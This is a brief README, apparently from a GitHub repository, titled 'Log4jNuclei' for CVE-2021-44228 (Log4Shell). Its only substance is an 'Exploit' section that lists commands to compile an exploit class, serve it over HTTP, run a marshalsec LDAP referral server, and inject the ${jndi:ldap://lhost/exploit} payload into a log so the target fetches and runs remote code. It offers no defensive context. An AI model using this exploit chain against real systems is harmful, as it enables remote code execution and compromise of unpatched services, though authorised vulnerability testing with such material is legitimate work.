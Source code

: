 # Log4jNuclei
# CVE-2021-44228
Log4j for nuclei



# Exploit

```
javac Exploit.java
python3 -m http.server 80
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1/#Exploit

insert log ${jndi:ldap://lhost/exploit}

```
